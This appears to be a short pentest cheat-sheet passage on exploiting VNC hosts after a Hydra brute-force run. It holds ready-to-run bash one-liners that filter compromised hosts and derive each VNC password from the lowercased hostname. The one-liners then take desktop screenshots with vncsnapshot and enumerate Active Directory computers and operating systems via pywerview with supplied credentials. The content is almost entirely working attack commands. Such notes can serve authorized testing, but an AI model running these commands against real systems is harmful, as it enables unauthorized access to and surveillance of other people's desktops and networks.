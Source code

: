 ### <a name='test-valid-accounts-hydra'></a>test-valid-accounts-hydra 
```bash
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / return / format output & list zpwned_computer_name
grep "^\[5900\]" pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
grep "^\[5900\]" -A 2 pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
```

### <a name='screenshots-4-pwned-desktop'></a>screenshots-4-pwned-desktop
```bash
while read ztarg_computer_fqdn; do export vnc_pwd=$(echo $ztarg_computer_fqdn | cut -d"." -f1 | tr '[:upper:]' '[:lower:]');   echo $vnc_pwd | vncpasswd -f > ./vnc_pwd.txt; echo -n $ztarg_computer_fqdn:; cat vnc_pwd.txt; vncsnapshot -passwd ./vnc_pwd.txt $ztarg_computer_fqdn pt_XXX_hydra_vnc_$ztarg_computer_fqdn.png >> pt_XXX_vncsnapshot_output.txt; done < pt_XXX_hydra_vnc_pwned.txt
```

### <a name='stats-4-pwned-desktop'></a>stats-4-pwned-desktop
```bash
# get the cn computer (1 line) and its OS (1 line) 
while read ztarg_computer_fqdn; python pywerview.py get-netcomputer --computername $ztarg_computer_fqdn -w $zdom_fqdn -u $ztarg_user_name -p XXX --dc-ip $zdom_dc_ip --attributes cn operatingSystem >> pt_XXX_getcomputer_XXX_os.txt; done < pt_XXX_hydra_vnc_pwned.txt

# format the result returned to CSV
i=0; while read line; do i=$(($i+1)); if [[ $i == 1 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' | tr '\n' ',' >> pt_XXX_getnetcomputer_XXX_os.csv ; elif [[ $i == 2 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' >> pt_XXX_getnetcomputer_XXX_os.csv; i=0; fi; done < pt_XXX_getcomputer_XXX_os.txt
```

Run the playbook [pen_enum_computers_os_piechart](https://github.com/jomivz/jomivz.github.io/playbook/pen_enum_computers_os_piechart.ipynb) to generate the chart pie per operating system.
